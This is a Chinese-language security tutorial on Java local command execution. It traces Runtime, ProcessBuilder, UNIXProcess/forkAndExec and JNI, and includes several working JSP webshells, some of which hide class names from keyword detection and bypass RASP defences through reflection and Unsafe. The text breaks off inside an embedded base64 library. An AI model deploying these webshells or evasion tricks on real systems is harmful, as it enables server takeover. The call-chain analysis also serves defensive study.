






# Java本地命令执行

Java原生提供了对本地系统命令执行的支持，黑客通常会`RCE利用漏洞`或者`WebShell`来执行系统终端命令控制服务器的目的。

对于开发者来说执行本地命令来实现某些程序功能(如:ps 进程管理、top内存管理等)是一个正常的需求，而对于黑客来说`本地命令执行`是一种非常有利的入侵手段。

## Runtime命令执行

在Java中我们通常会使用`java.lang.Runtime`类的`exec`方法来执行本地系统命令。


### Runtime命令执行测试

runtime-exec2.jsp执行cmd命令示例:**

```jsp
<%=Runtime.getRuntime().exec(request.getParameter("cmd"))%>
```

1. 本地nc监听9000端口:`nc -vv -l 9000`

2. 使用浏览器访问:http://localhost:8080/runtime-exec.jsp?cmd=curl localhost:9000。

   我们可以在nc中看到已经成功的接收到了java执行了`curl`命令的请求了，如此仅需要一行代码一个最简单的本地命令执行后门也就写好了。


上面的代码虽然足够简单但是缺少了回显，稍微改下即可实现命令执行的回显了。

**runtime-exec.jsp执行cmd命令示例:**

```jsp
<%=Runtime.getRuntime().exec(request.getParameter("cmd"))%>
<%--
  Created by IntelliJ IDEA.
  User: yz
  Date: 2019/12/5
  Time: 6:21 下午
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.io.InputStream" %>
<%
    InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    byte[] b = new byte[1024];
    int a = -1;

    while ((a = in.read(b)) != -1) {
        baos.write(b, 0, a);
    }

    out.write("<pre>" + new String(baos.toByteArray()) + "</pre>");
%>
```

命令执行效果如下：



### Runtime命令执行调用链

`Runtime.exec(xxx)`调用链如下:

```java
java.lang.UNIXProcess.<init>(UNIXProcess.java:247)
java.lang.ProcessImpl.start(ProcessImpl.java:134)
java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)
java.lang.Runtime.exec(Runtime.java:620)
java.lang.Runtime.exec(Runtime.java:450)
java.lang.Runtime.exec(Runtime.java:347)
org.apache.jsp.runtime_002dexec2_jsp._jspService(runtime_002dexec2_jsp.java:118)
```

通过观察整个调用链我们可以清楚的看到`exec`方法并不是命令执行的最终点，执行逻辑大致是：

1. `Runtime.exec(xxx)`
2. `java.lang.ProcessBuilder.start()`
3. `new java.lang.UNIXProcess(xxx)`
4. `UNIXProcess`构造方法中调用了`forkAndExec(xxx)` native方法。
5. `forkAndExec`调用操作系统级别`fork`->`exec`(*nix)/`CreateProcess`(Windows)执行命令并返回`fork`/`CreateProcess`的`PID`。

有了以上的调用链分析我们就可以深刻的理解到Java本地命令执行的深入逻辑了，切记`Runtime`和`ProcessBuilder`并不是程序的最终执行点!


### 反射Runtime命令执行

如果我们不希望在代码中出现和`Runtime`相关的关键字，我们可以全部用反射代替。

**reflection-cmd.jsp示例代码：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>

<%
    String str = request.getParameter("str");

    // 定义"java.lang.Runtime"字符串变量
    String rt = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101});

    // 反射java.lang.Runtime类获取Class对象
    Class<?> c = Class.forName(rt);

    // 反射获取Runtime类的getRuntime方法
    Method m1 = c.getMethod(new String(new byte[]{103, 101, 116, 82, 117, 110, 116, 105, 109, 101}));

    // 反射获取Runtime类的exec方法
    Method m2 = c.getMethod(new String(new byte[]{101, 120, 101, 99}), String.class);

    // 反射调用Runtime.getRuntime().exec(xxx)方法
    Object obj2 = m2.invoke(m1.invoke(null, new Object[]{}), new Object[]{str});

    // 反射获取Process类的getInputStream方法
    Method m = obj2.getClass().getMethod(new String(new byte[]{103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109}));
    m.setAccessible(true);

    // 获取命令执行结果的输入流对象：p.getInputStream()并使用Scanner按行切割成字符串
    Scanner s = new Scanner((InputStream) m.invoke(obj2, new Object[]{})).useDelimiter("\\A");
    String result = s.hasNext() ? s.next() : "";

    // 输出命令执行结果
    out.println(result);
%>
```

命令参数是`str`，如：`reflection-cmd.jsp?str=pwd`，程序执行结果同上。


## ProcessBuilder命令执行

学习`Runtime`命令执行的时候我们讲到其最终`exec`方法会调用`ProcessBuilder`来执行本地命令，那么我们只需跟踪下Runtime的exec方法就可以知道如何使用`ProcessBuilder`来执行系统命令了。

**process_builder.jsp命令执行测试**

```jsp
<%--
  Created by IntelliJ IDEA.
  User: yz
  Date: 2019/12/6
  Time: 10:26 上午
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.io.InputStream" %>
<%
    InputStream in = new ProcessBuilder(request.getParameterValues("cmd")).start().getInputStream();
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    byte[] b = new byte[1024];
    int a = -1;

    while ((a = in.read(b)) != -1) {
        baos.write(b, 0, a);
    }

    out.write("<pre>" + new String(baos.toByteArray()) + "</pre>");
%>
```

执行一个稍微复杂点的命令：`/bin/sh -c "cd /Users/;ls -la;"`,浏览器请求:[http://localhost:8080/process_builder.jsp?cmd=/bin/sh&cmd=-c&cmd=cd%20/Users/;ls%20-la](http://localhost:8080/process_builder.jsp?cmd=/bin/sh&cmd=-c&cmd=cd /Users/;ls -la)




## UNIXProcess/ProcessImpl

`UNIXProcess`和`ProcessImpl`可以理解本就是一个东西，因为在JDK9的时候把`UNIXProcess`合并到了`ProcessImpl`当中了,参考[changeset 11315:98eb910c9a97](https://hg.openjdk.java.net/jdk-updates/jdk9u/jdk/rev/98eb910c9a97)。



`UNIXProcess`和`ProcessImpl`其实就是最终调用`native`执行系统命令的类，这个类提供了一个叫`forkAndExec`的native方法，如方法名所述主要是通过`fork&exec`来执行本地系统命令。

`UNIXProcess`类的`forkAndExec`示例：

```java
private native int forkAndExec(int mode, byte[] helperpath,
                                   byte[] prog,
                                   byte[] argBlock, int argc,
                                   byte[] envBlock, int envc,
                                   byte[] dir,
                                   int[] fds,
                                   boolean redirectErrorStream)
        throws IOException;
```

最终执行的`Java_java_lang_ProcessImpl_forkAndExec`：



`Java_java_lang_ProcessImpl_forkAndExec`完整代码:[ProcessImpl_md.c](https://github.com/unofficial-openjdk/openjdk/blob/e59bd5b27066bb2eb77828110ee585b1598ba636/src/java.base/unix/native/libjava/ProcessImpl_md.c)

很多人对Java本地命令执行的理解不够深入导致了他们无法定位到最终的命令执行点，去年给`OpenRASP`提过这个问题，他们只防御到了`ProcessBuilder.start()`方法，而我们只需要直接调用最终执行的`UNIXProcess/ProcessImpl`实现命令执行或者直接反射`UNIXProcess/ProcessImpl`的`forkAndExec`方法就可以绕过RASP实现命令执行了。

## 反射UNIXProcess/ProcessImpl执行本地命令

**`linux-cmd.jsp`执行本地命令测试:**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.*" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>

<%!
    byte[] toCString(String s) {
        if (s == null) {
            return null;
        }

        byte[] bytes  = s.getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0, result, 0, bytes.length);
        result[result.length - 1] = (byte) 0;
        return result;
    }

    InputStream start(String[] strs) throws Exception {
        // java.lang.UNIXProcess
        String unixClass = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 85, 78, 73, 88, 80, 114, 111, 99, 101, 115, 115});

        // java.lang.ProcessImpl
        String processClass = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 80, 114, 111, 99, 101, 115, 115, 73, 109, 112, 108});

        Class clazz = null;

        // 反射创建UNIXProcess或者ProcessImpl
        try {
            clazz = Class.forName(unixClass);
        } catch (ClassNotFoundException e) {
            clazz = Class.forName(processClass);
        }

        // 获取UNIXProcess或者ProcessImpl的构造方法
        Constructor<?> constructor = clazz.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        assert strs != null && strs.length > 0;

        // Convert arguments to a contiguous block; it's easier to do
        // memory management in Java than in C.
        byte[][] args = new byte[strs.length - 1][];

        int size = args.length; // For added NUL bytes
        for (int i = 0; i < args.length; i++) {
            args[i] = strs[i + 1].getBytes();
            size += args[i].length;
        }

        byte[] argBlock = new byte[size];
        int    i        = 0;

        for (byte[] arg : args) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
            // No need to write NUL bytes explicitly
        }

        int[] envc    = new int[1];
        int[] std_fds = new int[]{-1, -1, -1};

        FileInputStream  f0 = null;
        FileOutputStream f1 = null;
        FileOutputStream f2 = null;

        // In theory, close() can throw IOException
        // (although it is rather unlikely to happen here)
        try {
            if (f0 != null) f0.close();
        } finally {
            try {
                if (f1 != null) f1.close();
            } finally {
                if (f2 != null) f2.close();
            }
        }

        // 创建UNIXProcess或者ProcessImpl实例
        Object object = constructor.newInstance(
                toCString(strs[0]), argBlock, args.length,
                null, envc[0], null, std_fds, false
        );

        // 获取命令执行的InputStream
        Method inMethod = object.getClass().getDeclaredMethod("getInputStream");
        inMethod.setAccessible(true);

        return (InputStream) inMethod.invoke(object);
    }

    String inputStreamToString(InputStream in, String charset) throws IOException {
        try {
            if (charset == null) {
                charset = "UTF-8";
            }

            ByteArrayOutputStream out = new ByteArrayOutputStream();
            int                   a   = 0;
            byte[]                b   = new byte[1024];

            while ((a = in.read(b)) != -1) {
                out.write(b, 0, a);
            }

            return new String(out.toByteArray());
        } catch (IOException e) {
            throw e;
        } finally {
            if (in != null)
                in.close();
        }
    }
%>
<%
    String[] str = request.getParameterValues("cmd");

    if (str != null) {
        InputStream in     = start(str);
        String      result = inputStreamToString(in, "UTF-8");
        out.println("<pre>");
        out.println(result);
        out.println("</pre>");
        out.flush();
        out.close();
    }
%>
```

命令执行效果如下：



Windows可能并不适用，稍做调整应该就可以了。


## forkAndExec命令执行-Unsafe+反射+Native方法调用

如果`RASP`把`UNIXProcess/ProcessImpl`类的构造方法给拦截了我们是不是就无法执行本地命令了？其实我们可以利用Java的几个特性就可以绕过RASP执行本地命令了，具体步骤如下:

1. 使用`sun.misc.Unsafe.allocateInstance(Class)`特性可以无需`new`或者`newInstance`创建`UNIXProcess/ProcessImpl`类对象。
2. 反射`UNIXProcess/ProcessImpl`类的`forkAndExec`方法。
3. 构造`forkAndExec`需要的参数并调用。
4. 反射`UNIXProcess/ProcessImpl`类的`initStreams`方法初始化输入输出结果流对象。
5. 反射`UNIXProcess/ProcessImpl`类的`getInputStream`方法获取本地命令执行结果(如果要输出流、异常流反射对应方法即可)。

**`fork_and_exec.jsp`执行本地命令示例:**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="sun.misc.Unsafe" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.lang.reflect.Method" %>
<%!
    byte[] toCString(String s) {
        if (s == null)
            return null;
        byte[] bytes  = s.getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0,
                result, 0,
                bytes.length);
        result[result.length - 1] = (byte) 0;
        return result;
    }


%>
<%
    String[] strs = request.getParameterValues("cmd");

    if (strs != null) {
        Field theUnsafeField = Unsafe.class.getDeclaredField("theUnsafe");
        theUnsafeField.setAccessible(true);
        Unsafe unsafe = (Unsafe) theUnsafeField.get(null);

        Class processClass = null;

        try {
            processClass = Class.forName("java.lang.UNIXProcess");
        } catch (ClassNotFoundException e) {
            processClass = Class.forName("java.lang.ProcessImpl");
        }

        Object processObject = unsafe.allocateInstance(processClass);

        // Convert arguments to a contiguous block; it's easier to do
        // memory management in Java than in C.
        byte[][] args = new byte[strs.length - 1][];
        int      size = args.length; // For added NUL bytes

        for (int i = 0; i < args.length; i++) {
            args[i] = strs[i + 1].getBytes();
            size += args[i].length;
        }

        byte[] argBlock = new byte[size];
        int    i        = 0;

        for (byte[] arg : args) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
            // No need to write NUL bytes explicitly
        }

        int[] envc                 = new int[1];
        int[] std_fds              = new int[]{-1, -1, -1};
        Field launchMechanismField = processClass.getDeclaredField("launchMechanism");
        Field helperpathField      = processClass.getDeclaredField("helperpath");
        launchMechanismField.setAccessible(true);
        helperpathField.setAccessible(true);
        Object launchMechanismObject = launchMechanismField.get(processObject);
        byte[] helperpathObject      = (byte[]) helperpathField.get(processObject);

        int ordinal = (int) launchMechanismObject.getClass().getMethod("ordinal").invoke(launchMechanismObject);

        Method forkMethod = processClass.getDeclaredMethod("forkAndExec", new Class[]{
                int.class, byte[].class, byte[].class, byte[].class, int.class,
                byte[].class, int.class, byte[].class, int[].class, boolean.class
        });

        forkMethod.setAccessible(true);// 设置访问权限

        int pid = (int) forkMethod.invoke(processObject, new Object[]{
                ordinal + 1, helperpathObject, toCString(strs[0]), argBlock, args.length,
                null, envc[0], null, std_fds, false
        });

        // 初始化命令执行结果，将本地命令执行的输出流转换为程序执行结果的输出流
        Method initStreamsMethod = processClass.getDeclaredMethod("initStreams", int[].class);
        initStreamsMethod.setAccessible(true);
        initStreamsMethod.invoke(processObject, std_fds);

        // 获取本地执行结果的输入流
        Method getInputStreamMethod = processClass.getMethod("getInputStream");
        getInputStreamMethod.setAccessible(true);
        InputStream in = (InputStream) getInputStreamMethod.invoke(processObject);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        int                   a    = 0;
        byte[]                b    = new byte[1024];

        while ((a = in.read(b)) != -1) {
            baos.write(b, 0, a);
        }

        out.println("<pre>");
        out.println(baos.toString());
        out.println("</pre>");
        out.flush();
        out.close();
    }
%>
```

命令执行效果如下：


## JNI命令执行

Java可以通过JNI的方式调用动态链接库，我们只需要在动态链接库中写一个本地命令执行的方法就行了。至于如何写JNI动态链接库写我们将在`JNI`章节中详解。

**`load_library.jsp`命令执行测试(不依赖Java的forkAndExec)：**

```jsp
<%--
  Created by IntelliJ IDEA.
  User: yz
  Date: 2019/12/6
  Time: 4:59 下午
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.File" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.FileOutputStream" %>
<%!
    private static final String COMMAND_CLASS_NAME = "com.anbai.sec.cmd.CommandExecution";

    /**
     * JDK1.5编译的com.anbai.sec.cmd.CommandExecution类字节码,
     * 只有一个public static native String exec(String cmd);的方法
     */
    private static final byte[] COMMAND_CLASS_BYTES = new byte[]{
            -54, -2, -70, -66, 0, 0, 0, 49, 0, 15, 10, 0, 3, 0, 12, 7, 0, 13, 7, 0, 14, 1,
            0, 6, 60, 105, 110, 105, 116, 62, 1, 0, 3, 40, 41, 86, 1, 0, 4, 67, 111, 100,
            101, 1, 0, 15, 76, 105, 110, 101, 78, 117, 109, 98, 101, 114, 84, 97, 98, 108,
            101, 1, 0, 4, 101, 120, 101, 99, 1, 0, 38, 40, 76, 106, 97, 118, 97, 47, 108, 97,
            110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 76, 106, 97, 118, 97, 47, 108,
            97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 1, 0, 10, 83, 111, 117, 114,
            99, 101, 70, 105, 108, 101, 1, 0, 21, 67, 111, 109, 109, 97, 110, 100, 69, 120,
            101, 99, 117, 116, 105, 111, 110, 46, 106, 97, 118, 97, 12, 0, 4, 0, 5, 1, 0, 34,
            99, 111, 109, 47, 97, 110, 98, 97, 105, 47, 115, 101, 99, 47, 99, 109, 100, 47, 67,
            111, 109, 109, 97, 110, 100, 69, 120, 101, 99, 117, 116, 105, 111, 110, 1, 0, 16,
            106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 79, 98, 106, 101, 99, 116, 0, 33, 0,
            2, 0, 3, 0, 0, 0, 0, 0, 2, 0, 1, 0, 4, 0, 5, 0, 1, 0, 6, 0, 0, 0, 29, 0, 1, 0, 1,
            0, 0, 0, 5, 42, -73, 0, 1, -79, 0, 0, 0, 1, 0, 7, 0, 0, 0, 6, 0, 1, 0, 0, 0, 7, 1,
            9, 0, 8, 0, 9, 0, 0, 0, 1, 0, 10, 0, 0, 0, 2, 0, 11
    };

    // JNI文件Base64编码后的值,这里默认提供一份MacOS的JNI库文件用于测试，其他系统请自行编译
    private static final String COMMAND_JNI_FILE_BYTES = "z/rt/gcAAAEDAAAABgAAAA8AAACABQAAhYARAAAAAAAZAAAAKAIAAF9fVEVYVAAAAAAAAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAEAAAAAAAAAUAAAAFAAAABgAAAAAAAABfX3RleHQAAAAAAAAAAAAAX19URVhUAAAAAAAAAAAAAMAIAAAAAAAA7gUAAAAAAADACAAABAAAAAAAAAAAAAAAAAQAgAAAAAAAAAAAAAAAAF9fc3R1YnMAAAAAAAAAAABfX1RFWFQAAAAAAAAAAAAArg4AAAAAAABIAAAAAAAAAK4OAAABAAAAAAAAAAAAAAAIBACAAAAAAAYAAAAAAAAAX19zdHViX2hlbHBlcgAAAF9fVEVYVAAAAAAAAAAAAAD4DgAAAAAAAHQAAAAAAAAA+A4AAAIAAAAAAAAAAAAAAAAEAIAAAAAAAAAAAAAAAABfX2djY19leGNlcHRfdGFiX19URVhUAAAAAAAAAAAAAGwPAAAAAAAAKAAAAAAAAABsDwAAAgAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAF9fY3N0cmluZwAAAAAAAABfX1RFWFQAAAAAAAAAAAAAlA8AAAAAAAACAAAAAAAAAJQPAAAAAAAAAAAAAAAAAAACAAAAAAAAAAAAAAAAAAAAX191bndpbmRfaW5mbwAAAF9fVEVYVAAAAAAAAAAAAACYDwAAAAAAAGgAAAAAAAAAmA8AAAIAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAZAAAAmAAAAF9fREFUQV9DT05TVAAAAAAAEAAAAAAAAAAQAAAAAAAAABAAAAAAAAAAEAAAAAAAAAMAAAADAAAAAQAAABAAAABfX2dvdAAAAAAAAAAAAAAAX19EQVRBX0NPTlNUAAAAAAAQAAAAAAAAGAAAAAAAAAAAEAAAAwAAAAAAAAAAAAAABgAAAAwAAAAAAAAAAAAAABkAAADoAAAAX19EQVRBAAAAAAAAAAAAAAAgAAAAAAAAABAAAAAAAAAAIAAAAAAAAAAQAAAAAAAAAwAAAAMAAAACAAAAAAAAAF9fbGFfc3ltYm9sX3B0cgBfX0RBVEEAAAAAAAAAAAAAACAAAAAAAABgAAAAAAAAAAAgAAADAAAAAAAAAAAAAAAHAAAADwAAAAAAAAAAAAAAX19kYXRhAAAAAAAAAAAAAF9fREFUQQAAAAAAAAAAAABgIAAAAAAAAAgAAAAAAAAAYCAAAAMAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAZAAAASAAAAF9fTElOS0VESVQAAAAAAAAAMAAAAAAAAAAQAAAAAAAAADAAAAAAAABMDgAAAAAAAAEAAAABAAAAAAAAAAAAAAANAAAAKAAAABgAAAABAAAAAAAAAAAAAABsaWJjbWQuam5pbGliAAAAIgAAgDAAAAAAMAAACAAAAAgwAABIAAAAUDAAAFgAAACoMAAAOAEAAOAxAACQAAAAAgAAABgAAACQMgAAKQAAAIw1AADACAAACwAAAFAAAAAAAAAAGQAAABkAAAADAAAAHAAAAA0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgNQAAGwAAAAAAAAAAAAAAAAAA